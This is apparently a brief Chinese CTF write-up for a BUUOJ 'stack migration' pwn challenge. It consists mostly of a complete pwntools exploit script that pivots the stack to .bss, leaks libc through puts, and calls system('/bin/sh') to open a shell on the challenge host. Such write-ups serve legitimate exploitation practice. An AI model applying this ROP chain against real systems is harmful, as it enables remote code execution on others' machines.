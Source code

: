 # W3 stack migration revenge

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序
~~怎么这次都是-2.zip~~

## 逆向

程序很简单，但是拿不到栈地址，怎么办？  
迁移到bss上后，地址就可控了，回到了上次的栈迁移

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 25597)
elf = ELF('stackm')
bss = 0x404800
read = 0x4011ff # read to bss - 0x50

# payload 1, stack pivot to bss
sh.send(b'0'*0x50 + p64(bss) + p64(read))

sh.recvuntil(b'ny\n') #skip
putsGot = elf.got['puts']
putsPlt = elf.plt['puts']
vulnAddr = 0x4011db
popRdiAddr = 0x4012b3
retAddr = 0x401228
leaveRetAddr = 0x401227

# payload 2, stack pivot to popRdi
sh.send(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x30 + p64(bss - 0x58) + p64(leaveRetAddr))

sh.recvuntil(b'ny\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

# payload 3
sh.send(p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x30 + p64(bss - 0x90) + p64(leaveRetAddr))

sh.interactive()
```

Done.
